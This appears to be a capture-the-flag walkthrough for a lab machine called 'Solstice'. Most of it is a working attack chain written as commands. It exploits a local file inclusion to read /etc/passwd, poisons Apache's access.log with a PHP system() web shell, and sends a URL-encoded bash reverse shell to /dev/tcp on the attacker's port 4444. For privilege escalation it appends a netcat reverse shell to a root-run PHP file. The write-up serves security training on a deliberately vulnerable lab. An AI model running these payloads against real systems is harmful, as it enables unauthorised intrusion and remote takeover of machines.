

# Solstice

## Enumeration

Let's start with nmap. We found a bunch of open ports.

After taking a look on all ports, some of them are running web servers with Apache, NGINX and python.

```
$ NMAP OUTPUT
```

We have something different on the port 8593.  
After some enumeration, we could see that index.php refer to something called "book=list"

```text
curl "http://<IP>:8593/index.php?book=list"

# After checking, we have a Local File Inclusion (LFI)
curl "http://<IP>:8593/index.php?book=../../../../../../etc/passwd"
```

## Get a shell

We know that LFI is vulnerable to "Log Poisoning" like Apache's "access.log" file.  
Let's try to access to it :

```text
curl "http://<IP>:8593/index.php?book=../../../../../../var/log/apache2/access.log"
```

The "access.log" file is accessible. Let's try to inject PHP code inside to get a reverse shell !

1- Access to port 80 to register an entry into log file \(because port 80 is running Apache\)  
2- Verify that we have another entry into the log file via the LFI  
3- Let's inject our PHP payload : &lt;?php system\($\_GET\['cmd'\]\);?&gt;  
**NOTE : single quote is used to bypass the suppression of double quote from apache**

```text
curl "http://<IP>/<?php system($_GET['cmd']);?>"
```

4- Now, try to access to Apache's "access.log" file, include the cmd parameter, and try to run a command like this :

```text
curl "http://<IP>:8593/index.php?book=../../../../../../var/log/apache2/access.log&cmd=whoami"
```

Perfect, the command was run and we got an output "www-data".  
Let's get a reverse shell from this point !

5- Before we can send our reverse shell command, we need to URL encode it.  
We can do it with **hURL** tool :

```text
hURL -U "/bin/bash -c 'bash -i > /dev/tcp/<MyIP>/4444 0>&1'"
OUTPUT : %2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%20%2Fdev%2Ftcp%2F%3CMyIP%3E%2F4444%200%3E%261%27

#Send our payload with LFI :
curl "http://<IP>:8593/index.php?book=../../../../../../var/log/apache2/access.log&cmd=%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%20%2Fdev%2Ftcp%2F%3CMyIP%3E%2F4444%200%3E%261%27
"
```

We now have a shell on the victim machine ! Let's start to escalate our privileges.

## Privilege Escalation

Once we have a shell, we will check the running process :

```text
ps -aux
```

After lot of enumeration, we could see that one PHP instance is runnning with root privilege.  
This PHP instance is running on http://localhost:57 and pointing to /var/tmp/sv. An index.php file is available and writable from www-data user.  
We could use it to escalate our privilege.

```text
www-data@solstice:/var/tmp/sv$ echo "<?php system('nc <IP> 4443 -e /bin/bash');?>" >> index.php
# Let's run a listener on our machine before run the curl command
www-data@solstice:/var/tmp/sv$ curl http://127.0.0.1:57/
# Get it ! We have Root shell !
```



